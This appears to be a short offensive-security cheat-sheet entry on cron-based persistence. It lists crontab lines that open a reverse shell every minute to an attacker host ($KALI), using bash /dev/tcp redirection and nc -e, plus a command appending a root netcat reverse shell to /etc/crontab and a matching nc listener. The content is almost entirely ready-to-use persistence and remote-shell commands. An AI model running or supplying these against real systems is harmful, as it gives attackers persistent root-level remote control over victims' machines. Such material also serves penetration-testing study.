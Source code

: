 #### Cronjob every 1 min
```bash - target
crontab -e
* * * * * 0<&196;exec 196<>/dev/tcp/$KALI/443; sh <&196 >&196 2>&196
```

```bash - target
* * * * * nc -e /bin/sh $KALI 443
```

```bash - target
echo "*  *  *  *  * root nc $KALI 443 -e /usr/bin/bash" >> /etc/crontab
```

Listener

```bash - target
nc -lvp 443
```

Sometimes you have to set the user

```bash - target
crontab -e
*/10 * * * * pelle /path/to/binary
```